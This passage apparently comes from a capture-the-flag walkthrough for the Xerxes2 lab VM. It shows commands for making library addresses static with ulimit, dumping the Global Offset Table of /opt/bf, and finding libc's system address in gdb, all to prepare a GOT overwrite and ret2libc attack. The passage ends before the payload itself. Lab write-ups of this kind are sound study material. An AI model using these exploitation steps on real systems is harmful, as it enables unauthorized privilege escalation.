 ```bash ASLR disable
delacroix@xerxes2:~$ ulimit -s unlimited

delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0x4001e000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0x40026000)
    /lib/ld-linux.so.2 (0x40000000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0x4001e000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0x40026000)
    /lib/ld-linux.so.2 (0x40000000)
delacroix@xerxes2:~$ ldd /opt/bf
    linux-gate.so.1 =>  (0x4001e000)
    libc.so.6 => /lib/i386-linux-gnu/i686/cmov/libc.so.6 (0x40026000)
    /lib/ld-linux.so.2 (0x40000000)
delacroix@xerxes2:~$
```

The memory locations are now static :) With that done, lets have a look at what pointer we would like to override, and then where we should be overwriting it to. We first take a look at the Global Offset Table:

```bash /bin/opt GOT
delacroix@xerxes2:~$ objdump -R /opt/bf

/opt/bf:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
08049a38 R_386_GLOB_DAT    __gmon_start__
08049a48 R_386_JUMP_SLOT   printf
08049a4c R_386_JUMP_SLOT   getchar
08049a50 R_386_JUMP_SLOT   __gmon_start__
08049a54 R_386_JUMP_SLOT   exit
08049a58 R_386_JUMP_SLOT   __libc_start_main
08049a5c R_386_JUMP_SLOT   memset
08049a60 R_386_JUMP_SLOT   putchar


delacroix@xerxes2:~$
```

Here, we will choose to override the `printf` functions pointer. This is at 0x08049a48. So, this address will have the location of our _evil code_. But now, how do we know where the evil code is and _what_ is it? Again, this was another interesting thing that had me researching for a very long time. In the end, it came to light that there is such a thing as [ret2libc](http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf). The basic idea here is that we override the pointer for `printf` to `system` with a argument. I highly recommend you read [this pdf](http://protostar-solutions.googlecode.com/hg/Stack%206/ret2libc.pdf) for a proper explanation on what exactly this means.

The only thing that is left to determine is where `system` is in memory. Luckily this is also pretty easy to find out. Fire up `gdb`, run the binary and `print system` to get the address:

```bash libc's system
delacroix@xerxes2:~$ gdb -q /opt/bf
Reading symbols from /opt/bf...(no debugging symbols found)...done.
(gdb) run
Starting program: /opt/bf 
usage: /opt/bf [program]
[Inferior 1 (process 11342) exited with code 0377]
(gdb) print system
$1 = {<text variable, no debug info>} 0x40062000 <system>
(gdb)
```
